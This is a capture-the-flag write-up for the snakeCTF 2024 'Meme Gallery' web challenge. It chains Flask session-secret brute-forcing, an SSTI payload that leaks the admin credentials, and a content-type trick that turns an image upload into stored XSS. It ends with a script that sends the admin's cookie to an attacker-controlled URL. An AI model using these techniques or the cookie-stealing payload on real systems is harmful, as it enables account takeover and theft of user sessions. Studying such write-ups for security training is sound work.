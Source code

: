 # Meme Gallery [_snakeCTF 2024 Quals_]

**Category**: web

## Description

Share your favourite memes with the admins.

### Hints

- Oh God, my secret rocks!

## Solution

From the source it is clear that the application is a platform to share memes. Moreover:

- Memes are uploaded in a minio object storage
- There is an admin bot with the flag in the cookies

It's possible to register an account and upload some pictures:
![An example uploaded meme](./images/examplememe.jpg)

When trying to submit the image to the admin, an error occurs: `I'm not interested in this naive memes`. The reason for this error is clearly stated in the code:

```js
@blueprint.route("/list/<meme>/maketheadminlaugh", methods=["GET"])
@token_required
@with_db
def report(db, user, meme):
    bucket = "supermemes"

    found = db.meme_bucket(meme)
    if found is None:
        return {"error": "Nonexistent meme is the new meme"}, 404
    if found != bucket:
        return {"error": "I'm not interested in this naive memes"}, 400
    res = requests.post(
        BOT_ADDRESS,
        data={"url": f"{current_app.config['APP_ADDRESS']}/get/{quote_plus(meme)}"},
    )
    ...
```

The bucket on which the memes are uploaded is defined in the following function:

```js
def bucket_for(user):
    if user.admin:
        return "supermemes"
    else:
        return "memes"
```

```js
@blueprint.route("/upload", methods=["POST"])
@token_required
@with_db
def upload(db, user):
    bucket = bucket_for(user)
    file = request.files["file"]
    ...
    db.add_meme(file.filename, content, file.content_type, user.id, bucket)
    ...
```

To show a meme to the bot (the only interaction possible), admin privileges are required. The only way to gain them is to know the admin credentials:

```js
@property
def admin(self):
    return (
        self._username == current_app.config["ADMIN_USERNAME"]
        and self._password == current_app.config["ADMIN_PASSWORD"]
    )
```

### Getting the admin credentials

In the first few lines of `app.py`, credentials are saved in the app config:

```js
app.config["ADMIN_USERNAME"] = environ.get("ADMIN_USERNAME", "");
app.config["ADMIN_PASSWORD"] = environ.get("ADMIN_PASSWORD", "");
```

This means that leaking the config provides a way to log in as admin an and upload memes to the `supermemes` bucket.
The authentication endpoints are clearly vulnerable to [SSTI](https://portswigger.net/web-security/server-side-template-injection):

```js
@blueprint.route("/user", methods=["GET"])
@token_required
def user_info(user):
    return render_template_string(f"uid={user.id}({{{{name}}}})", name=user.name), 200
```

In this route, the `user.id` is not sanitized and is directly printed in the template string before passing it to the template engine. If the attacker has control over `user.id`, this would be vulnerable to SSTI!

To exploit this vulnerability it is required to understand how the authentication is handled.
The `token_required` decorator is defined as follows:

```js
def token_required(f):
    @wraps(f)
    def decorated(*args, **kwargs):
        ...
            logged_user = json.loads(session.get("user"), cls=UserDecoder)
            db = AppDataStorage(DB_FILE, OS_ADDRESS)
            res = db.find_user(logged_user.name)
            if res is None or res[2] != logged_user.password:
                return (
                    {"error": "Invalid token"},
                    500,
                    {"Set-Cookie": "session=;Max-Age=0;"},
                )
        ....

        return f(logged_user, *args, **kwargs)
    ...
```

The `logged_user` is taken from the `session` and parsed with a custom decoder:

```js
class UserDecoder(json.JSONDecoder):
    def decode(self, encoded):
        parsed = json.loads(encoded)
        id = parsed["id"]
        username = parsed["username"]
        password = parsed["password"]
        if len(encoded) > 85 or len(username) < 5 or len(password) < 32:
            raise json.JSONDecodeError("Unusual behavior detected", "", 0)
        return User(id, username, password)
```

The `session` cookie is [cryptographically signed](https://flask.palletsprojects.com/en/3.0.x/quickstart/#sessions), so in order to change the session object the generation of a valid signature is required. Is the session secret safe?

```js
app.config["SECRET_KEY"] = environ.get("SECRET_KEY", None) or randbytes(4)
```

[Flask-unsign](https://github.com/Paradoxis/Flask-Unsign) is a tool with the objective to bruteforce flask sessions against a wordlist (such that [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)) and forge new valid sessions.
It can be used in this case, since the secret is weak:
![Bruteforcing the cookie](./images/brute.jpg)

A payload for SSTI, such that `{{config}}`, can be signed to leak the app's config.
![Signing the payload](./images/sign.jpg)
![App config leaked](./images/appconfig.jpg)

Notice that the check for `len(encoded) > 85` is present in order to (hopefully) avoid the SSTI to develop into an RCE. The length is enough to contain the `"{{config}}"` payload and white spaces can be removed from the JSON data to save some characters.

### Getting the XSS

With the admin credentials, it is possible to log in and upload memes to the `supermemes` bucket.
Since the flag is in the admin cookies, some kind of XSS can be used to steal it.
From the `report` function shown above, it is clear that the bot visits the `/get/<meme>` endpoint, and returns the object stored in the bucket:

```js
@blueprint.route("/get/<meme>", methods=["GET"])
@token_required
@with_db
def get_object(db, user, meme):
    bucket = bucket_for(user)
    found = db.find_meme(meme, bucket)
    if found is None:
        return {"error": "Meme not found!"}, 404
    o = db.retrieve_meme_data(meme, bucket)

    return Response(o.stream(), o.status, o.headers.items())
```

The uploaded file is clearly the injection point, but the upload route implements some security checks:

```js
ct_whitelist = [("image", "jpeg"), ("image", "png")]
ext_whitelist = [".png", ".jpeg", ".jpg"]
....
@blueprint.route("/upload", methods=["POST"])
@token_required
@with_db
def upload(db, user):
    bucket = bucket_for(user)
    file = request.files["file"]

    if file.filename is None:
        return {"error": "Invalid meme"}, 400

    exts = map(lambda x: file.filename.endswith(x), ext_whitelist)
    if not any(exts):
        return {"error": "Invalid extension"}, 400

    objs = db.bucket_memes(bucket)
    if file.filename in objs:
        return {"error": "Meme exists"}, 400

    content = file.stream.read()
    content_type = mimeparse.parse_mime_type(file.content_type)
    if len(content_type) != 3:
        return {"error": "Invalid Content-Type"}, 400
    cts = map(
        lambda x: x[0] == content_type[0]
        and x[1] == content_type[1]
        and content_type[2] == {},
        ct_whitelist,
    )
    if not any(cts):
        return {"error": "Content-Type not allowed!"}, 400
    db.add_meme(file.filename, content, file.content_type, user.id, bucket)
    ...
```

The file extension and the content type are checked against a whitelist, but the meme is stored with the original content type and not the parsed one.

On the internet an [interesting research](https://github.com/BlackFan/content-type-research/blob/master/XSS.md) on possible content types used for XSS is present.
One of the [Response Content-Type Tricks](https://github.com/BlackFan/content-type-research/blob/master/XSS.md#response-content-type-tricks) can be used to bypass the whitelist.
For example, by using `image/jpeg; ,text/html` as content type, the `mimeparse` library will report `('image', 'jpeg', {})` (since `,text/html` contains no valid parameters because [no `=` sign is present](https://github.com/falconry/python-mimeparse/blob/master/mimeparse/__init__.py#L43)), and the browser will interpret it as `text/html` and render it as a `html` page.
A html page in the content of the file can be used to extract the cookies, for example:

```html
<body>
    <script>
        document.location='<attacker_controlled_url>/' + btoa(document.cookie);
    </script>
</body>
</html>
```

This meme can be sent to the bot and steal the cookies.
